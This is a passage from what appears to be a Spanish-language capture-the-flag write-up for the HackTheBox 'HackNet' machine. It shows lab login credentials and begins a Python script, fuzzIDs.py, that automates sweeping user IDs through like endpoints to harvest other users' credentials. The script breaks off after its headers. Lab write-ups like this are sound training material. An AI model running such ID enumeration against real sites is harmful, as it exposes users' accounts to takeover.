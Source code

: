 ```
email: hexhunter@ciphermail.com
pass: H3xHunt3r!
```

Si las probamos en el `login`...

<figure><img src="../../.gitbook/assets/Captura de pantalla 2025-10-05 114054.png" alt=""><figcaption></figcaption></figure>

Vemos que seremos dicho usuario, pero no habra nada interesante, por lo que vamos a realizar un `barrido` de `IDs` para ver que credenciales sacamos gracias a esta vulnerabilidad.

## Escalate user mikey

Para no tener que estar dandole `like` uno por uno y despues enviar la segunda peticion para comprobarlo, vamos a montarnos un script que haga todo esto de forma automatica.

> fuzzIDs.py

```python
#!/usr/bin/env python3
import requests
import re
from concurrent.futures import ThreadPoolExecutor, as_completed

def scan_for_profile_37(target, csrf_token, session_id, max_id=100):
    """
    Escanea endpoints /like/{id} y /likes/{id} del 0 al 100
    y filtra SOLO el perfil con ID 37
    """
    
    headers = {
        'Host': 'hacknet.htb',
        'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0',
        'Accept': '*/*',
        'Accept-Language': 'en-US,en;q=0.5',
        'Accept-Encoding': 'gzip, deflate, br',
        'Referer': 'http://hacknet.htb/explore',
        'X-Requested-With': 'XMLHttpRequest',
        'Connection': 'keep-alive',
        'Cookie': f'csrftoken={csrf_token}; sessionid={session_id}',
        'Priority': 'u=0'
    }
    
    found_instances = []
    
```